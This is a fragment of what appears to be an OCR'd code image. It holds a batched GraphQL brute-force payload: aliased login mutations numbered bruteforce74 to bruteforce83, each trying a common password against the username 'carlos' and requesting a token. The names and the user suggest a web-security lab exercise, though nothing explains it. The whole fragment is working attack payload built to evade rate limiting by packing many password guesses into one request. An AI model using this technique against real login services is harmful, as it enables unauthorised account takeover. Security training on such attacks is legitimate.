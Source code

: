 ```bash
    }


bruteforce74:login(input:{password: "princess", username: "carlos"}) {
        token
        success
    }


bruteforce75:login(input:{password: "joshua", username: "carlos"}) {
        token
        success
    }


bruteforce76:login(input:{password: "cheese", username: "carlos"}) {
        token
        success
    }


bruteforce77:login(input:{password: "amanda", username: "carlos"}) {
        token
        success
    }


bruteforce78:login(input:{password: "summer", username: "carlos"}) {
        token
        success
    }


bruteforce79:login(input:{password: "love", username: "carlos"}) {
        token
        success
    }


bruteforce80:login(input:{password: "ashley", username: "carlos"}) {
        token
        success
    }


bruteforce81:login(input:{password: "nicole", username: "carlos"}) {
        token
        success
    }


bruteforce82:login(input:{password: "chelsea", username: "carlos"}) {
        token
        success
    }


bruteforce83:login(input:{password: "biteme", username: "carlos"}) {
        token
        success
    }


```